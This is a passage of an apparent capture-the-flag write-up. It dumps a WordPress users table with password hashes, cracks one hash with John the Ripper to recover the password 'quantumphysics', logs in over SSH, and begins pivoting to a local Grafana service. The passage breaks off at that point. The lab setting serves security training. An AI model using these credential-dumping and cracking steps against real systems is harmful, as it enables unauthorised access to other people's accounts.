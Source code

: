 ```sql
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.031 sec)
```
table `wp_users` looks interesting, let's check what's in it:
```sql
SELECT * FROM wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 |
| shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ |
+------------+------------------------------------+
```
bruteforcing the hashes:
```bash
john --wordlist=`fzf-wordlists` users.hash
find: ‘/usr/share/wfuzz’: No such file or directory
find: ‘/usr/share/dirb’: No such file or directory
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 16 OpenMP threads
Note: Passwords longer than 13 [worst case UTF-8] to 39 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:01:30 10.72% (ETA: 19:27:56) 0g/s 18971p/s 37943c/s 37943C/s insomnie..ingo123
quantumphysics   (?)
```
Shawking's password is `quantumphysics`, which we can use to `ssh` into the box
# Pivoting
Let's check for open ports
```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        9      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 172.17.0.1:3306         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:36019         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```
Port `3000` is running `Grafana` and if we start to look around we can find the database:
